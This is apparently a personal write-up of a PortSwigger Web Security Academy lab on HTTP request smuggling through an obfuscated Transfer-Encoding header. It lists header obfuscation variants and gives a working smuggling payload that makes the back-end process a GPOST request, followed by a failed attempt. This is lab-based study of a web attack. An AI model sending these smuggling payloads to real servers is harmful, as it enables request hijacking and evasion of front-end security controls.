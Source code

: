 # [Lab: HTTP request smuggling, obfuscating the TE header](https://portswigger.net/web-security/request-smuggling/lab-obfuscating-te-header)

## Lab

This lab involves a front-end and back-end server, and the two servers handle duplicate HTTP request headers in different ways. The front-end server rejects requests that aren't using the GET or POST method.

To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method `GPOST`.

## Characteristics

Front-end: TE

Back-end: TE

obfuscate:

```text
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

## Solutions

```http
POST / HTTP/1.1
Host: id.web-security-academy.net
Cookie: session=OYNO6KtHuOlQlg6CR3r3oGcyZrvdDMwV
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: cow

29
GPOST / HTTP/1.1
Content-Length: 15

a
0


```

## Fail
```
POST / HTTP/1.1
Host: 0aff005d044e2561c0913baa000100a3.web-security-academy.net
Cookie: session=OYNO6KtHuOlQlg6CR3r3oGcyZrvdDMwV
Content-Length: 4
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="109", "Not_A Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0aff005d044e2561c0913baa000100a3.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0aff005d044e2561c0913baa000100a3.web-security-academy.net/post?postId=9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Transfer-Encoding: xchunked
Transfer-encoding: cow

29
GPOST / HTTP/1.1
Content-Length: 20

a
0


```